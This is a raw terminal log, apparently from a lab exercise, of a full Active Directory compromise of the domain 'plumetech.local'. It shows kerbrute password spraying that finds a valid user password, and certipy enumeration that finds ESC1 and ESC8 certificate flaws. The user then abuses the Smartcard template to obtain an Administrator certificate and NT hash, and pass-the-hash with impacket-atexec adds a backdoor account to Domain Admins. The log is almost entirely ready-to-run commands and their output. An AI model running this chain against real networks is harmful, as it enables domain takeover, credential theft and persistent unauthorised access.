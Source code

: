 usernames from websites
┌──(kali㉿kali)-[~]
└─$ kerbrute bruteuser --dc 10.0.7.11 -d plumetech.local 2023-200_most_used_passwords.txt marla

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/28/25 - Ronnie Flathers @ropnop

2025/03/28 15:09:12 >  Using KDC(s):
2025/03/28 15:09:12 >   10.0.7.11:88

2025/03/28 15:09:13 >  Done! Tested 200 logins (0 successes) in 1.794 seconds

┌──(kali㉿kali)-[~]
└─$ kerbrute bruteuser --dc 10.0.7.11 -d plumetech.local 2023-200_most_used_passwords.txt damon

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/28/25 - Ronnie Flathers @ropnop

2025/03/28 15:09:20 >  Using KDC(s):
2025/03/28 15:09:20 >   10.0.7.11:88

2025/03/28 15:09:21 >  [+] VALID LOGIN:  damon@plumetech.local:Cindylee1
2025/03/28 15:09:21 >  Done! Tested 133 logins (1 successes) in 1.422 seconds

┌──(kali㉿kali)-[~]
└─$ certipy-ad find -vulnerable -u damon@plumetech.local -p Cindylee1 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Failed to resolve: PLUMETECH.LOCAL
[!] Failed to resolve: PLUMETECH.LOCAL
[-] Got error: invalid server address
[-] Use -debug to print a stacktrace

┌──(kali㉿kali)-[~]
└─$ sudo nano /etc/hosts

┌──(kali㉿kali)-[~]
└─$ certipy-ad find -vulnerable -u damon@plumetech.local -p Cindylee1 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'PLUMETECH-DC1-CA' via CSRA
[!] Got error while trying to get CA configuration for 'PLUMETECH-DC1-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'PLUMETECH-DC1-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'PLUMETECH-DC1-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : PLUMETECH-DC1-CA
    DNS Name                            : DC1.PLUMETECH.LOCAL
    Certificate Subject                 : CN=PLUMETECH-DC1-CA, DC=PLUMETECH, DC=LOCAL
    Certificate Serial Number           : 7DF3A36F66B49D8B4874FD299443974B
    Certificate Validity Start          : 2025-03-27 01:26:11+00:00
    Certificate Validity End            : 2030-03-27 01:36:10+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : PLUMETECH.LOCAL\Administrators
      Access Rights
        ManageCertificates              : PLUMETECH.LOCAL\Administrators
                                          PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Enterprise Admins
        ManageCa                        : PLUMETECH.LOCAL\Administrators
                                          PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Enterprise Admins
        Enroll                          : PLUMETECH.LOCAL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
Certificate Templates
  0
    Template Name                       : Smartcard
    Display Name                        : Smartcard
    Certificate Authorities             : PLUMETECH-DC1-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : PLUMETECH.LOCAL\Domain Users
      Object Control Permissions
        Owner                           : PLUMETECH.LOCAL\Enterprise Admins
        Full Control Principals         : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
        Write Owner Principals          : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
        Write Dacl Principals           : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
        Write Property Principals       : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
    [!] Vulnerabilities
      ESC1                              : 'PLUMETECH.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication

┌──(kali㉿kali)-[~]
└─$ enum4linux -u '' -p '' 10.0.7.11
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Mar 28 15:12:23 2025

 =========================================( Target Information )=========================================

Target ........... 10.0.7.11
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =============================( Enumerating Workgroup/Domain on 10.0.7.11 )=============================


[E] Can't find workgroup/domain



 =====================================( Session Check on 10.0.7.11 )=====================================


[+] Server 10.0.7.11 allows sessions using username '', password ''


 ==================================( Getting domain SID for 10.0.7.11 )==================================

Domain Name: PLUMETECH
Domain Sid: S-1-5-21-514844351-3181471642-2638765006

[+] Host is part of a domain (not a workgroup)

enum4linux complete on Fri Mar 28 15:12:37 2025


┌──(kali㉿kali)-[~]
└─$ certipy-ad req -username damon@plumetech.local -password 'Cindylee1' -ca PLUMETECH-DC1-CA -target 10.0.7.11 -template Smartcard -upn Administrator@plumetech.local -sid 'S-1-5-21-514844351-3181471642-2638765006-500'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 3
[*] Got certificate with UPN 'Administrator@plumetech.local'
[*] Certificate object SID is 'S-1-5-21-514844351-3181471642-2638765006-500'
[*] Saved certificate and private key to 'administrator.pfx'

┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.0.7.11
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@plumetech.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@plumetech.local': aad3b435b51404eeaad3b435b51404ee:110d175a98fcafce620960d79e5492f1

┌──(kali㉿kali)-[~]
└─$ impacket-atexec -hashes aad3b435b51404eeaad3b435b51404ee:110d175a98fcafce620960d79e5492f1 plumetech.local/administrator@10.0.7.11 'net user plumber TestGeslo123! /add /y'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[!] This will work ONLY on Windows >= Vista
[*] Creating task \eyLjUKzR
[*] Running task \eyLjUKzR
[*] Deleting task \eyLjUKzR
[*] Attempting to read ADMIN$\Temp\eyLjUKzR.tmp
[*] Attempting to read ADMIN$\Temp\eyLjUKzR.tmp
The command completed successfully.



┌──(kali㉿kali)-[~]
└─$ impacket-atexec -hashes aad3b435b51404eeaad3b435b51404ee:110d175a98fcafce620960d79e5492f1 plumetech.local/administrator@10.0.7.11 'net group "Domain Admins" plumber /add /y'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[!] This will work ONLY on Windows >= Vista
[*] Creating task \chzzGYqW
[*] Running task \chzzGYqW
[*] Deleting task \chzzGYqW
[*] Attempting to read ADMIN$\Temp\chzzGYqW.tmp
[*] Attempting to read ADMIN$\Temp\chzzGYqW.tmp
The command completed successfully.